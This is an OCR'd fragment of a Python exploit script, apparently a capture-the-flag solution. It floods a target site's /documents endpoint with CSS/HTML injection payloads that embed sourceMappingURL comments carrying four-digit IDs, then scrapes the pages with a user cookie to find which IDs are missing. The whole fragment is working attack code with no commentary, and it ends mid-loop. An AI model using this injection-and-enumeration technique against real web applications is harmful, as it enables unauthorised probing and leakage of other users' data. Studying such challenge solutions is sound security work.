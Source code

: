 ```python
        DOCUMENT_CONTENT = f"<a style='background-image: url(/*# sourceMappingURL={padded} */);'>@slonser_</a>"
        try:
            doc_resp = session.post(f"{BASE_URL}/documents", data={
                "content": DOCUMENT_CONTENT
            }, allow_redirects=False, timeout=10)
            if doc_resp.status_code == 302:
                print(f"[+] {padded} posted successfully!")
            else:
                print(f"[-] {padded} failed: {doc_resp.status_code} {doc_resp.text}")
        except Exception as e:
            print(f"[!] Error posting {padded}: {e}")

def fetch_all_documents():
    session = requests.Session()
    session.cookies.set("user", USER_COOKIE)
    res = session.get(f"{BASE_URL}/documents").text
    with open('out.txt', 'w') as f:
        f.write(res)
    return res.splitlines()

def process_lines(lines):
    local_ids = set()
    pattern = re.compile(r'sourceMappingURL=(\d{4})')
    for line in lines:
        local_ids.update(pattern.findall(line))
    with lock:
        found_ids.update(local_ids)

def main():
    total = END - START
    chunk = math.ceil(total / NUM_THREADS)
    threads = []

    for i in range(NUM_THREADS):
        thread_start = START + i * chunk
        thread_end = min(START + (i + 1) * chunk, END)
        t = Thread(target=post_documents, args=(thread_start, thread_end))
        threads.append(t)
        t.start()

    for t in threads:
        t.join()

    lines = fetch_all_documents()

    chunk_size = len(lines) // NUM_THREADS
    threads = []

    for i in range(NUM_THREADS):
        start = i * chunk_size
        end = None if i == NUM_THREADS - 1 else (i + 1) * chunk_size
        t = Thread(target=process_lines, args=(lines[start:end],))
        threads.append(t)
        t.start()

    for t in threads:
        t.join()

    missing = sorted(ALL_IDS - found_ids)
    print(f"[+] Total found: {len(found_ids)}")
    print(f"[+] Missing ({len(missing)}):")
    for mid in missing:
```